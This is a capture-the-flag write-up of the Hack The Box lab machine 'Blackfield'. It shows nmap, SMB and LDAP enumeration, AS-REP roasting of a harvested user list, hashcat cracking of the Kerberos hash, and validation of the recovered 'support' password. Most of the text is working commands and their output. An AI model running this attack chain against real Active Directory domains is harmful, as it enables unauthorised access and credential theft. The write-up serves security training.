

# Blackfield
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.192 --min-rate 5000 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-17 18:54 BST
Nmap scan report for 10.10.10.192 (10.10.10.192)
Host is up (0.11s latency).
Not shown: 65526 filtered tcp ports (no-response)
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
593/tcp  open  http-rpc-epmap
3268/tcp open  globalcatLDAP
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 35.69 seconds

```
```
└─$ nmap -Pn -p53,88,135,389,445,593,3268,5985 -sC -sV 10.10.10.192 --min-rate 5000 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-17 18:56 BST
Nmap scan report for 10.10.10.192 (10.10.10.192)
Host is up (0.15s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-09-18 00:55:30Z)
135/tcp  open  msrpc         Microsoft Windows RPC
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 6h59m20s
| smb2-time: 
|   date: 2023-09-18T00:55:39
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.42 seconds

```
- `smb`
```
└─$ smbclient -N -L //10.10.10.192                                  

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        forensic        Disk      Forensic / Audit share.
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        profiles$       Disk      
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.192 failed (Error NT_STATUS_IO_TIMEOUT)
Unable to connect with SMB1 -- no workgroup available

```

- `dns`
```
└─$ sudo vim /etc/hosts                                                                                                     
[sudo] password for kali: 
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/tasks]
└─$ dig  @10.10.10.192 BLACKFIELD.local                                                                                     

; <<>> DiG 9.18.16-1-Debian <<>> @10.10.10.192 BLACKFIELD.local
; (1 server found)
;; global options: +cmd
;; Got answer:
;; WARNING: .local is reserved for Multicast DNS
;; You are currently testing what happens when an mDNS query is leaked to DNS
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 26635
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;BLACKFIELD.local.              IN      A

;; ANSWER SECTION:
BLACKFIELD.local.       600     IN      A       10.10.10.192

;; Query time: 95 msec
;; SERVER: 10.10.10.192#53(10.10.10.192) (UDP)
;; WHEN: Sun Sep 17 19:03:32 BST 2023
;; MSG SIZE  rcvd: 61

```
```
└─$ dig axfr @10.10.10.192 BLACKFIELD.local 

; <<>> DiG 9.18.16-1-Debian <<>> axfr @10.10.10.192 BLACKFIELD.local
; (1 server found)
;; global options: +cmd
; Transfer failed.
```
- `ldap`
```
└─$ ldapsearch -H ldap://10.10.10.192 -x -s base namingcontexts 
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingcontexts 
#

#
dn:
namingcontexts: DC=BLACKFIELD,DC=local
namingcontexts: CN=Configuration,DC=BLACKFIELD,DC=local
namingcontexts: CN=Schema,CN=Configuration,DC=BLACKFIELD,DC=local
namingcontexts: DC=DomainDnsZones,DC=BLACKFIELD,DC=local
namingcontexts: DC=ForestDnsZones,DC=BLACKFIELD,DC=local

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1

```
```
└─$ ldapsearch -H ldap://10.10.10.192 -x -b "DC=BLACKFIELD,DC=local"
# extended LDIF
#
# LDAPv3
# base <DC=BLACKFIELD,DC=local> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A69, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v4563

# numResponses: 1

```

## Foothold
- `smb`
```
└─$ smbclient -N //10.10.10.192/profiles$
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jun  3 17:47:12 2020
  ..                                  D        0  Wed Jun  3 17:47:12 2020
  AAlleni                             D        0  Wed Jun  3 17:47:11 2020
  ABarteski                           D        0  Wed Jun  3 17:47:11 2020
  ABekesz                             D        0  Wed Jun  3 17:47:11 2020
  ABenzies                            D        0  Wed Jun  3 17:47:11 2020
  ABiemiller                          D        0  Wed Jun  3 17:47:11 2020
  AChampken                           D        0  Wed Jun  3 17:47:11 2020
  ACheretei                           D        0  Wed Jun  3 17:47:11 2020
  ACsonaki                            D        0  Wed Jun  3 17:47:11 2020
  AHigchens                           D        0  Wed Jun  3 17:47:11 2020
  AJaquemai                           D        0  Wed Jun  3 17:47:11 2020
  AKlado                              D        0  Wed Jun  3 17:47:11 2020
  AKoffenburger                       D        0  Wed Jun  3 17:47:11 2020
  AKollolli                           D        0  Wed Jun  3 17:47:11 2020
  AKruppe                             D        0  Wed Jun  3 17:47:11 2020
  AKubale                             D        0  Wed Jun  3 17:47:11 2020
  ALamerz                             D        0  Wed Jun  3 17:47:11 2020
  AMaceldon                           D        0  Wed Jun  3 17:47:11 2020
  AMasalunga                          D        0  Wed Jun  3 17:47:11 2020
  ANavay                              D        0  Wed Jun  3 17:47:11 2020
  ANesterova                          D        0  Wed Jun  3 17:47:11 2020
  ANeusse                             D        0  Wed Jun  3 17:47:11 2020
  AOkleshen                           D        0  Wed Jun  3 17:47:11 2020
  APustulka                           D        0  Wed Jun  3 17:47:11 2020
  ARotella                            D        0  Wed Jun  3 17:47:11 2020
  ASanwardeker                        D        0  Wed Jun  3 17:47:11 2020
  AShadaia                            D        0  Wed Jun  3 17:47:11 2020
  ASischo                             D        0  Wed Jun  3 17:47:11 2020
  ASpruce                             D        0  Wed Jun  3 17:47:11 2020
  ATakach                             D        0  Wed Jun  3 17:47:11 2020
  ATaueg                              D        0  Wed Jun  3 17:47:11 2020
  ATwardowski                         D        0  Wed Jun  3 17:47:11 2020
  audit2020                           D        0  Wed Jun  3 17:47:11 2020
  AWangenheim                         D        0  Wed Jun  3 17:47:11 2020
  AWorsey                             D        0  Wed Jun  3 17:47:11 2020
  AZigmunt                            D        0  Wed Jun  3 17:47:11 2020
  BBakajza                            D        0  Wed Jun  3 17:47:11 2020
  BBeloucif                           D        0  Wed Jun  3 17:47:11 2020
  BCarmitcheal                        D        0  Wed Jun  3 17:47:11 2020
  BConsultant                         D        0  Wed Jun  3 17:47:11 2020
  BErdossy                            D        0  Wed Jun  3 17:47:11 2020
  BGeminski                           D        0  Wed Jun  3 17:47:11 2020
  BLostal                             D        0  Wed Jun  3 17:47:11 2020
  BMannise                            D        0  Wed Jun  3 17:47:11 2020
  BNovrotsky                          D        0  Wed Jun  3 17:47:11 2020
  BRigiero                            D        0  Wed Jun  3 17:47:11 2020
  BSamkoses                           D        0  Wed Jun  3 17:47:11 2020
  BZandonella                         D        0  Wed Jun  3 17:47:11 2020
  CAcherman                           D        0  Wed Jun  3 17:47:12 2020
  CAkbari                             D        0  Wed Jun  3 17:47:12 2020
  CAldhowaihi                         D        0  Wed Jun  3 17:47:12 2020
  CArgyropolous                       D        0  Wed Jun  3 17:47:12 2020
  CDufrasne                           D        0  Wed Jun  3 17:47:12 2020
  CGronk                              D        0  Wed Jun  3 17:47:11 2020
  Chiucarello                         D        0  Wed Jun  3 17:47:11 2020
  Chiuccariello                       D        0  Wed Jun  3 17:47:12 2020
  CHoytal                             D        0  Wed Jun  3 17:47:12 2020
  CKijauskas                          D        0  Wed Jun  3 17:47:12 2020
  CKolbo                              D        0  Wed Jun  3 17:47:12 2020
  CMakutenas                          D        0  Wed Jun  3 17:47:12 2020
  CMorcillo                           D        0  Wed Jun  3 17:47:11 2020
  CSchandall                          D        0  Wed Jun  3 17:47:12 2020
  CSelters                            D        0  Wed Jun  3 17:47:12 2020
  CTolmie                             D        0  Wed Jun  3 17:47:12 2020
  DCecere                             D        0  Wed Jun  3 17:47:12 2020
  DChintalapalli                      D        0  Wed Jun  3 17:47:12 2020
  DCwilich                            D        0  Wed Jun  3 17:47:12 2020
  DGarbatiuc                          D        0  Wed Jun  3 17:47:12 2020
  DKemesies                           D        0  Wed Jun  3 17:47:12 2020
  DMatuka                             D        0  Wed Jun  3 17:47:12 2020
  DMedeme                             D        0  Wed Jun  3 17:47:12 2020
  DMeherek                            D        0  Wed Jun  3 17:47:12 2020
  DMetych                             D        0  Wed Jun  3 17:47:12 2020
  DPaskalev                           D        0  Wed Jun  3 17:47:12 2020
  DPriporov                           D        0  Wed Jun  3 17:47:12 2020
  DRusanovskaya                       D        0  Wed Jun  3 17:47:12 2020
  DVellela                            D        0  Wed Jun  3 17:47:12 2020
  DVogleson                           D        0  Wed Jun  3 17:47:12 2020
  DZwinak                             D        0  Wed Jun  3 17:47:12 2020
  EBoley                              D        0  Wed Jun  3 17:47:12 2020
  EEulau                              D        0  Wed Jun  3 17:47:12 2020
  EFeatherling                        D        0  Wed Jun  3 17:47:12 2020
  EFrixione                           D        0  Wed Jun  3 17:47:12 2020
  EJenorik                            D        0  Wed Jun  3 17:47:12 2020
  EKmilanovic                         D        0  Wed Jun  3 17:47:12 2020
  ElKatkowsky                         D        0  Wed Jun  3 17:47:12 2020
  EmaCaratenuto                       D        0  Wed Jun  3 17:47:12 2020
  EPalislamovic                       D        0  Wed Jun  3 17:47:12 2020
  EPryar                              D        0  Wed Jun  3 17:47:12 2020
  ESachhitello                        D        0  Wed Jun  3 17:47:12 2020
  ESariotti                           D        0  Wed Jun  3 17:47:12 2020
  ETurgano                            D        0  Wed Jun  3 17:47:12 2020
  EWojtila                            D        0  Wed Jun  3 17:47:12 2020
  FAlirezai                           D        0  Wed Jun  3 17:47:12 2020
  FBaldwind                           D        0  Wed Jun  3 17:47:12 2020
  FBroj                               D        0  Wed Jun  3 17:47:12 2020
  FDeblaquire                         D        0  Wed Jun  3 17:47:12 2020
  FDegeorgio                          D        0  Wed Jun  3 17:47:12 2020
  FianLaginja                         D        0  Wed Jun  3 17:47:12 2020
  FLasokowski                         D        0  Wed Jun  3 17:47:12 2020
  FPflum                              D        0  Wed Jun  3 17:47:12 2020
  FReffey                             D        0  Wed Jun  3 17:47:12 2020
  GaBelithe                           D        0  Wed Jun  3 17:47:12 2020
  Gareld                              D        0  Wed Jun  3 17:47:12 2020
  GBatowski                           D        0  Wed Jun  3 17:47:12 2020
  GForshalger                         D        0  Wed Jun  3 17:47:12 2020
  GGomane                             D        0  Wed Jun  3 17:47:12 2020
  GHisek                              D        0  Wed Jun  3 17:47:12 2020
  GMaroufkhani                        D        0  Wed Jun  3 17:47:12 2020
  GMerewether                         D        0  Wed Jun  3 17:47:12 2020
  GQuinniey                           D        0  Wed Jun  3 17:47:12 2020
  GRoswurm                            D        0  Wed Jun  3 17:47:12 2020
  GWiegard                            D        0  Wed Jun  3 17:47:12 2020
  HBlaziewske                         D        0  Wed Jun  3 17:47:12 2020
  HColantino                          D        0  Wed Jun  3 17:47:12 2020
  HConforto                           D        0  Wed Jun  3 17:47:12 2020
  HCunnally                           D        0  Wed Jun  3 17:47:12 2020
  HGougen                             D        0  Wed Jun  3 17:47:12 2020
  HKostova                            D        0  Wed Jun  3 17:47:12 2020
  IChristijr                          D        0  Wed Jun  3 17:47:12 2020
  IKoledo                             D        0  Wed Jun  3 17:47:12 2020
  IKotecky                            D        0  Wed Jun  3 17:47:12 2020
  ISantosi                            D        0  Wed Jun  3 17:47:12 2020
  JAngvall                            D        0  Wed Jun  3 17:47:12 2020
  JBehmoiras                          D        0  Wed Jun  3 17:47:12 2020
  JDanten                             D        0  Wed Jun  3 17:47:12 2020
  JDjouka                             D        0  Wed Jun  3 17:47:12 2020
  JKondziola                          D        0  Wed Jun  3 17:47:12 2020
  JLeytushsenior                      D        0  Wed Jun  3 17:47:12 2020
  JLuthner                            D        0  Wed Jun  3 17:47:12 2020
  JMoorehendrickson                   D        0  Wed Jun  3 17:47:12 2020
  JPistachio                          D        0  Wed Jun  3 17:47:12 2020
  JScima                              D        0  Wed Jun  3 17:47:12 2020
  JSebaali                            D        0  Wed Jun  3 17:47:12 2020
  JShoenherr                          D        0  Wed Jun  3 17:47:12 2020
  JShuselvt                           D        0  Wed Jun  3 17:47:12 2020
  KAmavisca                           D        0  Wed Jun  3 17:47:12 2020
  KAtolikian                          D        0  Wed Jun  3 17:47:12 2020
  KBrokinn                            D        0  Wed Jun  3 17:47:12 2020
  KCockeril                           D        0  Wed Jun  3 17:47:12 2020
  KColtart                            D        0  Wed Jun  3 17:47:12 2020
  KCyster                             D        0  Wed Jun  3 17:47:12 2020
  KDorney                             D        0  Wed Jun  3 17:47:12 2020
  KKoesno                             D        0  Wed Jun  3 17:47:12 2020
  KLangfur                            D        0  Wed Jun  3 17:47:12 2020
  KMahalik                            D        0  Wed Jun  3 17:47:12 2020
  KMasloch                            D        0  Wed Jun  3 17:47:12 2020
  KMibach                             D        0  Wed Jun  3 17:47:12 2020
  KParvankova                         D        0  Wed Jun  3 17:47:12 2020
  KPregnolato                         D        0  Wed Jun  3 17:47:12 2020
  KRasmor                             D        0  Wed Jun  3 17:47:12 2020
  KShievitz                           D        0  Wed Jun  3 17:47:12 2020
  KSojdelius                          D        0  Wed Jun  3 17:47:12 2020
  KTambourgi                          D        0  Wed Jun  3 17:47:12 2020
  KVlahopoulos                        D        0  Wed Jun  3 17:47:12 2020
  KZyballa                            D        0  Wed Jun  3 17:47:12 2020
  LBajewsky                           D        0  Wed Jun  3 17:47:12 2020
  LBaligand                           D        0  Wed Jun  3 17:47:12 2020
  LBarhamand                          D        0  Wed Jun  3 17:47:12 2020
  LBirer                              D        0  Wed Jun  3 17:47:12 2020
  LBobelis                            D        0  Wed Jun  3 17:47:12 2020
  LChippel                            D        0  Wed Jun  3 17:47:12 2020
  LChoffin                            D        0  Wed Jun  3 17:47:12 2020
  LCominelli                          D        0  Wed Jun  3 17:47:12 2020
  LDruge                              D        0  Wed Jun  3 17:47:12 2020
  LEzepek                             D        0  Wed Jun  3 17:47:12 2020
  LHyungkim                           D        0  Wed Jun  3 17:47:12 2020
  LKarabag                            D        0  Wed Jun  3 17:47:12 2020
  LKirousis                           D        0  Wed Jun  3 17:47:12 2020
  LKnade                              D        0  Wed Jun  3 17:47:12 2020
  LKrioua                             D        0  Wed Jun  3 17:47:12 2020
  LLefebvre                           D        0  Wed Jun  3 17:47:12 2020
  LLoeradeavilez                      D        0  Wed Jun  3 17:47:12 2020
  LMichoud                            D        0  Wed Jun  3 17:47:12 2020
  LTindall                            D        0  Wed Jun  3 17:47:12 2020
  LYturbe                             D        0  Wed Jun  3 17:47:12 2020
  MArcynski                           D        0  Wed Jun  3 17:47:12 2020
  MAthilakshmi                        D        0  Wed Jun  3 17:47:12 2020
  MAttravanam                         D        0  Wed Jun  3 17:47:12 2020
  MBrambini                           D        0  Wed Jun  3 17:47:12 2020
  MHatziantoniou                      D        0  Wed Jun  3 17:47:12 2020
  MHoerauf                            D        0  Wed Jun  3 17:47:12 2020
  MKermarrec                          D        0  Wed Jun  3 17:47:12 2020
  MKillberg                           D        0  Wed Jun  3 17:47:12 2020
  MLapesh                             D        0  Wed Jun  3 17:47:12 2020
  MMakhsous                           D        0  Wed Jun  3 17:47:12 2020
  MMerezio                            D        0  Wed Jun  3 17:47:12 2020
  MNaciri                             D        0  Wed Jun  3 17:47:12 2020
  MShanmugarajah                      D        0  Wed Jun  3 17:47:12 2020
  MSichkar                            D        0  Wed Jun  3 17:47:12 2020
  MTemko                              D        0  Wed Jun  3 17:47:12 2020
  MTipirneni                          D        0  Wed Jun  3 17:47:12 2020
  MTonuri                             D        0  Wed Jun  3 17:47:12 2020
  MVanarsdel                          D        0  Wed Jun  3 17:47:12 2020
  NBellibas                           D        0  Wed Jun  3 17:47:12 2020
  NDikoka                             D        0  Wed Jun  3 17:47:12 2020
  NGenevro                            D        0  Wed Jun  3 17:47:12 2020
  NGoddanti                           D        0  Wed Jun  3 17:47:12 2020
  NMrdirk                             D        0  Wed Jun  3 17:47:12 2020
  NPulido                             D        0  Wed Jun  3 17:47:12 2020
  NRonges                             D        0  Wed Jun  3 17:47:12 2020
  NSchepkie                           D        0  Wed Jun  3 17:47:12 2020
  NVanpraet                           D        0  Wed Jun  3 17:47:12 2020
  OBelghazi                           D        0  Wed Jun  3 17:47:12 2020
  OBushey                             D        0  Wed Jun  3 17:47:12 2020
  OHardybala                          D        0  Wed Jun  3 17:47:12 2020
  OLunas                              D        0  Wed Jun  3 17:47:12 2020
  ORbabka                             D        0  Wed Jun  3 17:47:12 2020
  PBourrat                            D        0  Wed Jun  3 17:47:12 2020
  PBozzelle                           D        0  Wed Jun  3 17:47:12 2020
  PBranti                             D        0  Wed Jun  3 17:47:12 2020
  PCapperella                         D        0  Wed Jun  3 17:47:12 2020
  PCurtz                              D        0  Wed Jun  3 17:47:12 2020
  PDoreste                            D        0  Wed Jun  3 17:47:12 2020
  PGegnas                             D        0  Wed Jun  3 17:47:12 2020
  PMasulla                            D        0  Wed Jun  3 17:47:12 2020
  PMendlinger                         D        0  Wed Jun  3 17:47:12 2020
  PParakat                            D        0  Wed Jun  3 17:47:12 2020
  PProvencer                          D        0  Wed Jun  3 17:47:12 2020
  PTesik                              D        0  Wed Jun  3 17:47:12 2020
  PVinkovich                          D        0  Wed Jun  3 17:47:12 2020
  PVirding                            D        0  Wed Jun  3 17:47:12 2020
  PWeinkaus                           D        0  Wed Jun  3 17:47:12 2020
  RBaliukonis                         D        0  Wed Jun  3 17:47:12 2020
  RBochare                            D        0  Wed Jun  3 17:47:12 2020
  RKrnjaic                            D        0  Wed Jun  3 17:47:12 2020
  RNemnich                            D        0  Wed Jun  3 17:47:12 2020
  RPoretsky                           D        0  Wed Jun  3 17:47:12 2020
  RStuehringer                        D        0  Wed Jun  3 17:47:12 2020
  RSzewczuga                          D        0  Wed Jun  3 17:47:12 2020
  RVallandas                          D        0  Wed Jun  3 17:47:12 2020
  RWeatherl                           D        0  Wed Jun  3 17:47:12 2020
  RWissor                             D        0  Wed Jun  3 17:47:12 2020
  SAbdulagatov                        D        0  Wed Jun  3 17:47:12 2020
  SAjowi                              D        0  Wed Jun  3 17:47:12 2020
  SAlguwaihes                         D        0  Wed Jun  3 17:47:12 2020
  SBonaparte                          D        0  Wed Jun  3 17:47:12 2020
  SBouzane                            D        0  Wed Jun  3 17:47:12 2020
  SChatin                             D        0  Wed Jun  3 17:47:12 2020
  SDellabitta                         D        0  Wed Jun  3 17:47:12 2020
  SDhodapkar                          D        0  Wed Jun  3 17:47:12 2020
  SEulert                             D        0  Wed Jun  3 17:47:12 2020
  SFadrigalan                         D        0  Wed Jun  3 17:47:12 2020
  SGolds                              D        0  Wed Jun  3 17:47:12 2020
  SGrifasi                            D        0  Wed Jun  3 17:47:12 2020
  SGtlinas                            D        0  Wed Jun  3 17:47:12 2020
  SHauht                              D        0  Wed Jun  3 17:47:12 2020
  SHederian                           D        0  Wed Jun  3 17:47:12 2020
  SHelregel                           D        0  Wed Jun  3 17:47:12 2020
  SKrulig                             D        0  Wed Jun  3 17:47:12 2020
  SLewrie                             D        0  Wed Jun  3 17:47:12 2020
  SMaskil                             D        0  Wed Jun  3 17:47:12 2020
  Smocker                             D        0  Wed Jun  3 17:47:12 2020
  SMoyta                              D        0  Wed Jun  3 17:47:12 2020
  SRaustiala                          D        0  Wed Jun  3 17:47:12 2020
  SReppond                            D        0  Wed Jun  3 17:47:12 2020
  SSicliano                           D        0  Wed Jun  3 17:47:12 2020
  SSilex                              D        0  Wed Jun  3 17:47:12 2020
  SSolsbak                            D        0  Wed Jun  3 17:47:12 2020
  STousignaut                         D        0  Wed Jun  3 17:47:12 2020
  support                             D        0  Wed Jun  3 17:47:12 2020
  svc_backup                          D        0  Wed Jun  3 17:47:12 2020
  SWhyte                              D        0  Wed Jun  3 17:47:12 2020
  SWynigear                           D        0  Wed Jun  3 17:47:12 2020
  TAwaysheh                           D        0  Wed Jun  3 17:47:12 2020
  TBadenbach                          D        0  Wed Jun  3 17:47:12 2020
  TCaffo                              D        0  Wed Jun  3 17:47:12 2020
  TCassalom                           D        0  Wed Jun  3 17:47:12 2020
  TEiselt                             D        0  Wed Jun  3 17:47:12 2020
  TFerencdo                           D        0  Wed Jun  3 17:47:12 2020
  TGaleazza                           D        0  Wed Jun  3 17:47:12 2020
  TKauten                             D        0  Wed Jun  3 17:47:12 2020
  TKnupke                             D        0  Wed Jun  3 17:47:12 2020
  TLintlop                            D        0  Wed Jun  3 17:47:12 2020
  TMusselli                           D        0  Wed Jun  3 17:47:12 2020
  TOust                               D        0  Wed Jun  3 17:47:12 2020
  TSlupka                             D        0  Wed Jun  3 17:47:12 2020
  TStausland                          D        0  Wed Jun  3 17:47:12 2020
  TZumpella                           D        0  Wed Jun  3 17:47:12 2020
  UCrofskey                           D        0  Wed Jun  3 17:47:12 2020
  UMarylebone                         D        0  Wed Jun  3 17:47:12 2020
  UPyrke                              D        0  Wed Jun  3 17:47:12 2020
  VBublavy                            D        0  Wed Jun  3 17:47:12 2020
  VButziger                           D        0  Wed Jun  3 17:47:12 2020
  VFuscca                             D        0  Wed Jun  3 17:47:12 2020
  VLitschauer                         D        0  Wed Jun  3 17:47:12 2020
  VMamchuk                            D        0  Wed Jun  3 17:47:12 2020
  VMarija                             D        0  Wed Jun  3 17:47:12 2020
  VOlaosun                            D        0  Wed Jun  3 17:47:12 2020
  VPapalouca                          D        0  Wed Jun  3 17:47:12 2020
  WSaldat                             D        0  Wed Jun  3 17:47:12 2020
  WVerzhbytska                        D        0  Wed Jun  3 17:47:12 2020
  WZelazny                            D        0  Wed Jun  3 17:47:12 2020
  XBemelen                            D        0  Wed Jun  3 17:47:12 2020
  XDadant                             D        0  Wed Jun  3 17:47:12 2020
  XDebes                              D        0  Wed Jun  3 17:47:12 2020
  XKonegni                            D        0  Wed Jun  3 17:47:12 2020
  XRykiel                             D        0  Wed Jun  3 17:47:12 2020
  YBleasdale                          D        0  Wed Jun  3 17:47:12 2020
  YHuftalin                           D        0  Wed Jun  3 17:47:12 2020
  YKivlen                             D        0  Wed Jun  3 17:47:12 2020
  YKozlicki                           D        0  Wed Jun  3 17:47:12 2020
  YNyirenda                           D        0  Wed Jun  3 17:47:12 2020
  YPredestin                          D        0  Wed Jun  3 17:47:12 2020
  YSeturino                           D        0  Wed Jun  3 17:47:12 2020
  YSkoropada                          D        0  Wed Jun  3 17:47:12 2020
  YVonebers                           D        0  Wed Jun  3 17:47:12 2020
  YZarpentine                         D        0  Wed Jun  3 17:47:12 2020
  ZAlatti                             D        0  Wed Jun  3 17:47:12 2020
  ZKrenselewski                       D        0  Wed Jun  3 17:47:12 2020
  ZMalaab                             D        0  Wed Jun  3 17:47:12 2020
  ZMiick                              D        0  Wed Jun  3 17:47:12 2020
  ZScozzari                           D        0  Wed Jun  3 17:47:12 2020
  ZTimofeeff                          D        0  Wed Jun  3 17:47:12 2020
  ZWausik                             D        0  Wed Jun  3 17:47:12 2020

                5102079 blocks of size 4096. 1697641 blocks available

```
```
└─$ smbclient -N //10.10.10.192/forensic 
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_ACCESS_DENIED listing \*
smb: \> 
```
- Each directory is empty
  - But we can use it to create a userlist and try `AS-REP`-roasting
```
└─$ impacket-GetNPUsers -usersfile users.list -dc-ip 10.10.10.192 blackfield.local/
Impacket v0.11.0 - Copyright 2023 Fortra

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
...
$krb5asrep$23$support@BLACKFIELD.LOCAL:1f10d897a1b644a032f41814413ebe39$b16365d416a55a510ac198406233651071444fb1de08ba43529cd7dad0a9ca5025653e234e9ee14f3cbafabb4a492089bfdf57e1b7e2328003154bafdb0bcea191020a3dce2f3aac242166054e1c32c90f2fc1f932f0c92a62bf3d30a1ce26539d5d0b14143f0e409b7c66eeefb1c7fc5c900b17595a083fb23ae675f82d9eae5b02fef0f5178b1f35ca50fd98b3f5adff177028626db9ccccbf841746a01fa7d734f9fbc6f91b62a9a676c1f188a48624c771b75652b4cf94df83849e7bdcb6b9797c4176c3e0e7327b41c3610fcb162b0279f313c79a06c9d3cb127f606198db65bf5c2bae16a91b5b9ec05e5337ef0c623eb2
[-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set
...
```
- Crack it with `hashcat`
  - `support:#00^BlackKnight`
```
└─$ hashcat -m 18200 hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-sandybridge-12th Gen Intel(R) Core(TM) i5-12400, 1436/2936 MB (512 MB allocatable), 2MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
...
$krb5asrep$23$support@BLACKFIELD.LOCAL:1f10d897a1b644a032f41814413ebe39$b16365d416a55a510ac198406233651071444fb1de08ba43529cd7dad0a9ca5025653e234e9ee14f3cbafabb4a492089bfdf57e1b7e2328003154bafdb0bcea191020a3dce2f3aac242166054e1c32c90f2fc1f932f0c92a62bf3d30a1ce26539d5d0b14143f0e409b7c66eeefb1c7fc5c900b17595a083fb23ae675f82d9eae5b02fef0f5178b1f35ca50fd98b3f5adff177028626db9ccccbf841746a01fa7d734f9fbc6f91b62a9a676c1f188a48624c771b75652b4cf94df83849e7bdcb6b9797c4176c3e0e7327b41c3610fcb162b0279f313c79a06c9d3cb127f606198db65bf5c2bae16a91b5b9ec05e5337ef0c623eb2:#00^BlackKnight
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$support@BLACKFIELD.LOCAL:1f10d897a1b6...623eb2
Time.Started.....: Sun Sep 17 19:11:50 2023 (13 secs)
Time.Estimated...: Sun Sep 17 19:12:03 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1089.9 kH/s (0.41ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 14336000/14344385 (99.94%)
Rejected.........: 0/14336000 (0.00%)
Restore.Point....: 14335488/14344385 (99.94%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: #1*6)0 -> #!hrvert
Hardware.Mon.#1..: Util: 91%

Started: Sun Sep 17 19:11:49 2023
Stopped: Sun Sep 17 19:12:05 2023
                                     
```

- The creds are valid
  - But no `winrm` access
```
└─$ crackmapexec smb 10.10.10.192 -u support -p '#00^BlackKnight'
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\support:#00^BlackKnight
```
```
